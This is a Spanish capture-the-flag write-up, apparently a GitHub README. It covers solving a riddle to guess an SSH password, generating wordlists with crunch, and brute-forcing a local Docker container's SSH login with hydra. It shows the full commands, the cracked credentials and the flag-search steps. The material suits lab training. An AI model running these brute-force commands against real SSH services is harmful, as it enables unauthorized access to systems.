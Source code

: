 # 🛡️ Reto CTF: Ubuntu con SSH y Usuario 'Legion'

## 🎯 Objetivo
*Acceder vía SSH a un contenedor Docker con usuario `legion`, cuya contraseña debe ser descubierta a través de fuerza bruta basada en un acertijo. Se utilizaron herramientas como `crunch` e `hydra` para automatizar el proceso.*

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧱 1. Preparación del entorno

![Alistamiento](Images/soldat-soldier.gif)

### *Descargar imagen del contenedor*

```bash
docker pull jaiderospina/retoctf:1.0
```

### *Ejecutar contenedor en segundo plano*

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```
![exe contenedor](Images/1.%20exe%20cont%20.png)

###  *Solución a conflicto de nombre* 

```bash
docker rm -f mi-contenedor-ssh
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔍 2. Verificación del contenedor

```bash
docker ps
```

*Se confirmó contenedor activo y SSH escuchando en puerto 2222.*

![verif contenedor](Images/2.%20verif%20cont%20.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 3. Análisis del acertijo

### *Acertijo:*

*Your content *Cinco guardianes vigilantes,*  
*cada uno con su inicial,*  
*la primera se esconde en estrella,*  
*la segunda en la selva tropical,*  
*tercera y cuarta van seguidas,*  
*ambas en dedo se dejan hallar,*  
*la última es misteriosa,*  
*y en gato suena al final.*  
*Juntas caminan siempre en fila.*

### *Análisis:*

***Pista:** Cinco letras ocultas y podría existir relación con las iniciales.*


| Posición | Palabra   |Letra identificada |
|----------|-----------|-------------------|
| 1        | estrella  |      **e**        |
| 2        | selva     |      **s**        |
| 3 y 4    | dedo      |   **d**-**e**     |
| 5        | gato      |      **g**        |

*Siguiendo las instrucciones del acertijo y analizando el contexto se llegó a una hipótesis.*

**Hipótesis principal**: combinación posible **esdeg**, **ESDEG**, etc.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧰 4. Generación de diccionarios con Crunch

### *Lista basada en patrón:*

crunch 5 5 -t ES%%O -o esdeo.lst

![Crunch](Images/4.%20crunch%20+%20hydra%201%20.png)

### *Lista reducida:*

crunch 5 5 estdgo -o reducido.lst

![Crunch](Images/4.1%20crunch%20+%20hydra%202%20.png)

### *Lista ampliada:*

crunch 5 5 estdogal -o ampliada.lst

![Crunch](Images/4.2%20hydra%20.png)

### *Lista completa:*


crunch 5 5 abcdefghijklmnopqrstuvwxyz -o full.lst

![Crunch](Images/4.3%20crunch%20+%20hydra%203%20.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## ⚔️ 5. Ataques con Hydra

## *Comando base usado:*


```bash
hydra -t 4 -l legion -P [archivo] -s 2222 localhost ssh
```

## *Diccionarios probados:*

esdeo.lst ❌

reducido.lst ❌

ampliada.lst ❌

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 👣 6. Verificación manual de servicio SSH

```bash
ssh legion@localhost -p 2222
Confirmado: SSH activo y pidiendo contraseña.
```

![Acces Denied](Images/request-denied-thumbs-down.gif)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🎯 7. Ataque exitoso con combinaciones personalizadas

### *Crear wordlist:*

```bash
echo -e "esdeg\nESDEG\nEsdeg\neSdeg\nesDEG\neSdEg\nEsDEg\nESDeg\nesDEg\nEsdEg" > combinadas.lst
```
### *Ejecutar Hydra:*

```bash
hydra -l legion -P combinadas.lst -s 2222 localhost ssh
```
![Bang](Images/bangbang-gun.gif)

## ✅ Resultado:
```bash
css
```
[22][ssh] host: localhost login: legion password: Esdeg

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔐 8. Acceso SSH exitoso

```bash
ssh legion@localhost -p 2222
```

***Contraseña:** Esdeg*

![Acces](Images/lukeafk-hacking.gif)

## 🕵️ 9. Búsqueda de bandera

## *Comandos usados:*

```bash
ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /etc/motd
grep -r "CTF{" /home 2>/dev/null
```

## ❌ No se encontró bandera explícita en el contenedor.

## 🧠 Lecciones aprendidas

>- Uso táctico de crunch para generar diccionarios.
>- Dominio de hydra con control de tareas (-t).
>- Verificación previa de puertos y servicio SSH.
>- Importancia de considerar variantes en uso de mayúsculas.
>- Documentación detallada del proceso paso a paso.

**Contraseña final encontrada: Esdeg**
**Usuario: legion**
**Puerto: 2222**


